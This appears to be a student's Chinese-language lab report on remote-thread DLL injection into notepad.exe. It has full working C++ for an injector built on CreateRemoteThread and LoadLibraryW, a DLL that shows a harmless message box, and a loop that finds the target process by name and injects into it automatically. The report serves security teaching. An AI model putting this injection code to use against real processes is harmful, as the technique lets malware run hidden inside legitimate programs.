






# 实验五

---

## 实验环境

* Windows10
* 32 位 notepad.exe 

## 实验目的

> 1、查文档，研究远程线程方式注入dll的实例代码的实现原理。
>
> 2、运行实例代码，向一个目标程序（比如notepad.exe)注入一个我们自行编写的dll（运行notepad.exe时弹出messagebox），加载运行。
>
> 3、整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid。

## 实验过程

### 远程线程方式注入dll的实例代码的实现原理

>远程线程注入——相信对Windows底层编程和系统安全熟悉的人并不陌生，其主要核心在于一个Windows API函数CreateRemoteThread，通过它可以在另外一个进程中注入一个线程并执行。在提供便利的同时，正是因为如此，使得系统内部出现了安全隐患。常用的注入手段有两种：一种是远程的dll的注入，另一种是远程代码的注入。后者相对起来更加隐蔽，也更难被杀软检测。顾名思义，远程线程注入就是在非本地进程中创建一个新的线程。远程线程注入（该方法不适用于win7及以上的OS）
>
>首先，我们需要知道Win32程序在运行时都会加载一个名为kernel32.dll的文件，而且Windows默认的是同一个系统中dll的文件加载位置是固定的。我们又知道dll里有一系列按序排列的输出函数，因此这些函数在任何进程的地址空间中的位置是固定的。例如本地进程中MessageBox函数的地址和其他任何进程的MessageBox的地址是一样的。
>
>其次，我们需要知道动态加载dll文件需要系统API LoadLibraryA或者LoadLibraryW，由于使用MBCS字符集，这里我们只关心LoadLibraryA，而这个函数正是kernel32.dll的导出函数。因此我们就能在本地进程获得了LoadLibraryA的地址，然后告诉远程进程这就是远程线程入口地址，那么远程线程就会自动的执行LoadLibraryA这个函数。
>
>函数可以伪造代替，但是参数是不能伪造代替的。因此用前边的方法，我们申请一个新的房间专门存放粮食，待用到的时候取便是。我们知道LoadLibraryA的参数就是要加载的dll的路径，为了保险起见，我们把要注入的dll的路径字符串注入到远程进程空间中，这样返回的地址就是LoadLibraryA的参数字符串的地址，将这两个地址分别作为入口和参数传入CreateRemoteThread就可以使得远程进程加载我们自己的dll了。
>
>此过程中会有几个问题：
>
>* **必须提高本地程序的权限**
>* **函数入口和参数的区别**
>* **用户代码启动**
>* **注入代码如何书写**
>* **注入代码如何定位**
>* **内存必须设置为可读可写可执行**

```c++
//t_CreateRemoteThread函数
#include <stdio.h>
#include <Windows.h>
#include <tlhelp32.h>
#include "fheaders.h"
DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);
	// Get process handle passing in the process ID
	HANDLE hProcess = OpenProcess(
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		wprintf(TEXT("[-] Error: Could not open process for PID (%d).\n"), dwProcessId);
		return(1);
	}
	// Allocate space in the remote process for the pathname
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (pszLibFileRemote == NULL)
	{
		wprintf(TEXT("[-] Error: Could not allocate memory inside PID (%d).\n"), dwProcessId);
		return(1);
	}
	// Copy the DLL's pathname to the remote process address space
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	if (n == 0)
	{
		wprintf(TEXT("[-] Error: Could not write any bytes into the PID [%d] address space.\n"), dwProcessId);
		return(1);
	}
	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		wprintf(TEXT("[-] Error: Could not find LoadLibraryA function inside kernel32.dll library.\n"));
		return(1);
	}
	// Create a remote thread that calls LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	if (hThread == NULL)
	{
		wprintf(TEXT("[-] Error: Could not create the Remote Thread.\n"));
		return(1);
	}
	else
		wprintf(TEXT("[+] Success: DLL injected via CreateRemoteThread().\n"));
	// Wait for the remote thread to terminate
	WaitForSingleObject(hThread, INFINITE);
	// Free the remote memory that contained the DLL's pathname and close Handles
	if (pszLibFileRemote != NULL)
		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);
	if (hThread != NULL)
		CloseHandle(hThread);
	if (hProcess != NULL)
		CloseHandle(hProcess);
	return(0);
}
```

### 编写代码

* 创建远程线程，生成.dll文件

```c++
// dllmain.cpp : 定义 DLL 应用程序的入口点。
#include "pch.h"
#include <stdio.h>
#include <stdlib.h>
int APIENTRY function(const char* m)
{
	MessageBoxA(NULL, "This is a messagebox from notepad.exe",m, MB_OK);
	return 0;
}
BOOL APIENTRY DllMain( HMODULE hModule,
                       DWORD  ul_reason_for_call,
                       LPVOID lpReserved
                     )
{
    switch (ul_reason_for_call)
    {
    case DLL_PROCESS_ATTACH:
		function("hook");
		break;
    case DLL_THREAD_ATTACH:
		break;
    case DLL_THREAD_DETACH:
		break;
    case DLL_PROCESS_DETACH:
        break;
    }
    return TRUE;
}


```

* 编写代码进行注入dll测试，其中t_CreateRemoteThread函数来自文档[t_CreateRemoteThread.cpp](https://github.com/fdiskyou/injectAllTheThings/blob/master/injectAllTheThings/t_CreateRemoteThread.cpp)

```c++
#include <stdio.h>
#include <windows.h>
//t_CreateRemoteThread函数
#include <tlhelp32.h>
#include "fheaders.h"
DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);
	// Get process handle passing in the process ID
	HANDLE hProcess = OpenProcess(
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		return(1);
	}
	// Allocate space in the remote process for the pathname
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (pszLibFileRemote == NULL)
	{
		return(1);
	}
	// Copy the DLL's pathname to the remote process address space
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	if (n == 0)
	{

		return(1);
	}
	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		
		return(1);
	}
	// Create a remote thread that calls LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	if (hThread == NULL)
	{
		
		return(1);
	}
	else
	// Wait for the remote thread to terminate
	WaitForSingleObject(hThread, INFINITE);
	// Free the remote memory that contained the DLL's pathname and close Handles
	if (pszLibFileRemote != NULL)
		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);
	if (hThread != NULL)
		CloseHandle(hThread);
	if (hProcess != NULL)
		CloseHandle(hProcess);
	return(0);
}
int main() 
{
	demoCreateRemoteThreadW(L"C:\\Users\\lenovo\\Desktop\\hook.dll", 36944);
	getchar();	
	return 1;
}
```

* 整合进程遍历的程序，使得攻击程序可以自己遍历进程得到目标程序的pid,此段代码修改自[Taking a Snapshot and Viewing Processes](https://docs.microsoft.com/zh-cn/windows/win32/toolhelp/taking-a-snapshot-and-viewing-processes)

```c++
#include <stdio.h>
#include <windows.h>
//t_CreateRemoteThread函数
#include <tlhelp32.h>
#include "fheaders.h"
DWORD demoCreateRemoteThreadW(PCWSTR pszLibFile, DWORD dwProcessId)
{
	// Calculate the number of bytes needed for the DLL's pathname
	DWORD dwSize = (lstrlenW(pszLibFile) + 1) * sizeof(wchar_t);
	// Get process handle passing in the process ID
	HANDLE hProcess = OpenProcess(
		PROCESS_QUERY_INFORMATION |
		PROCESS_CREATE_THREAD |
		PROCESS_VM_OPERATION |
		PROCESS_VM_WRITE,
		FALSE, dwProcessId);
	if (hProcess == NULL)
	{
		return(1);
	}
	// Allocate space in the remote process for the pathname
	LPVOID pszLibFileRemote = (PWSTR)VirtualAllocEx(hProcess, NULL, dwSize, MEM_COMMIT, PAGE_READWRITE);
	if (pszLibFileRemote == NULL)
	{
		return(1);
	}
	// Copy the DLL's pathname to the remote process address space
	DWORD n = WriteProcessMemory(hProcess, pszLibFileRemote, (PVOID)pszLibFile, dwSize, NULL);
	if (n == 0)
	{

		return(1);
	}
	// Get the real address of LoadLibraryW in Kernel32.dll
	PTHREAD_START_ROUTINE pfnThreadRtn = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
	if (pfnThreadRtn == NULL)
	{
		
		return(1);
	}
	// Create a remote thread that calls LoadLibraryW(DLLPathname)
	HANDLE hThread = CreateRemoteThread(hProcess, NULL, 0, pfnThreadRtn, pszLibFileRemote, 0, NULL);
	if (hThread == NULL)
	{
		
		return(1);
	}
	else
	// Wait for the remote thread to terminate
	WaitForSingleObject(hThread, INFINITE);
	// Free the remote memory that contained the DLL's pathname and close Handles
	if (pszLibFileRemote != NULL)
		VirtualFreeEx(hProcess, pszLibFileRemote, 0, MEM_RELEASE);
	if (hThread != NULL)
		CloseHandle(hThread);
	if (hProcess != NULL)
		CloseHandle(hProcess);
	return(0);
}
int main() 
{
	HANDLE hProcessSnap;
	HANDLE hProcess;
	PROCESSENTRY32 pe32;
	DWORD dwPriorityClass;

	// Take a snapshot of all processes in the system.
	hProcessSnap = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
	if (hProcessSnap == INVALID_HANDLE_VALUE)
	{
		return(FALSE);
	}

	// Set the size of the structure before using it.
	pe32.dwSize = sizeof(PROCESSENTRY32);

	// Retrieve information about the first process,
	// and exit if unsuccessful
	if (!Process32First(hProcessSnap, &pe32))
	{
		CloseHandle(hProcessSnap);          // clean the snapshot object
		return(FALSE);
	}

	// Now walk the snapshot of processes, and
	// display information about each process in turn
	do
	{

		// Retrieve the priority class.
		dwPriorityClass = 0;
		hProcess = OpenProcess(PROCESS_ALL_ACCESS, FALSE, pe32.th32ProcessID);
		if (lstrcmp(pe32.szExeFile,TEXT("notepad.exe"))==0)
		{
			demoCreateRemoteThreadW(L"C:\\Users\\lenovo\\Desktop\\hook.dll", pe32.th32ProcessID);
			
		}
		

	} while (Process32Next(hProcessSnap, &pe32));

	CloseHandle(hProcessSnap);
	getchar();
	return(TRUE);
}
```

### 实验结果

* 测试dll注入

运行hook.exe，发现记事本中弹出弹窗



在Process Explorer中进行查看，发现notepad.exe载入了hook.dll





* 自动遍历程序进行注入可以看到弹窗确实是从记事本中弹出，在Process Explorer中也可验证





